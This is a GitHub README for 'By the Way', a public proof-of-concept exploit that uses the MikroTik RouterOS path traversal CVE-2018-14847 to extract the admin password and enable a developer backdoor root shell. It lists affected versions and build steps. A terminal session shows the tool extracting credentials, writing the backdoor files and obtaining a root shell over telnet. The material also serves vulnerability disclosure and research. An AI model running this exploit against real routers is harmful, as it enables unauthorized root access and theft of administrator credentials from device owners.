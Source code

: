 # By the Way

By the Way is an exploit that enables a root shell on Mikrotik devices running RouterOS versions:

* Longterm: 6.30.1 - 6.40.7
* Stable: 6.29 - 6.42.0
* Beta: 6.29rc1 - 6.43rc3

The exploit leverages the path traversal vulnerability CVE-2018-14847 to extract the admin password and create an "option" package to enable the developer backdoor. Post exploitation the attacker can connect to Telnet or SSH using the root user "devel" with the admin's password.

Mikrotik patched CVE-2018-14847 back in April. However, until this PoC was written, I don't believe its been publicly disclosed that the attack can be levegered to write files. You can find Mikrotik's advisory here:

* https://blog.mikrotik.com/security/winbox-vulnerability.html

Note that, while this exploit is written for Winbox, it could be ported to HTTP as long as you had prior knowledge of the admin credentials.

## Dependencies
This PoC relies on:

* Boost 1.66
* pthread
* cmake

## Build Insturctions

```sh
mkdir build
cd build
cmake ..
make
```

## Usage Example

```sh
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ telnet -l devel 192.168.1.251
Trying 192.168.1.251...
Connected to 192.168.1.251.
Escape character is '^]'.
Password: 
Login failed, incorrect username or password

Connection closed by foreign host.
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ ./btw -i 192.168.1.251

   ╔╗ ┬ ┬  ┌┬┐┬ ┬┌─┐  ╦ ╦┌─┐┬ ┬
   ╠╩╗└┬┘   │ ├─┤├┤   ║║║├─┤└┬┘
   ╚═╝ ┴    ┴ ┴ ┴└─┘  ╚╩╝┴ ┴ ┴ 

[+] Extracting passwords from 192.168.1.251:8291
[+] Searching for administrator credentials 
[+] Using credentials - admin:lol
[+] Creating /pckg/option on 192.168.1.251:8291
[+] Creating /flash/nova/etc/devel-login on 192.168.1.251:8291
[+] There's a light on
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ telnet -l devel 192.168.1.251
Trying 192.168.1.251...
Connected to 192.168.1.251.
Escape character is '^]'.
Password: 


BusyBox v1.00 (2017.03.02-08:29+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

# uname -a
Linux MikroTik 3.3.5 #1 Thu Mar 2 08:16:25 UTC 2017 mips unknown
# cat /rw/logs/VERSION
v6.38.4 Mar/08/2017 09:26:17
# Connection closed by foreign host.
```

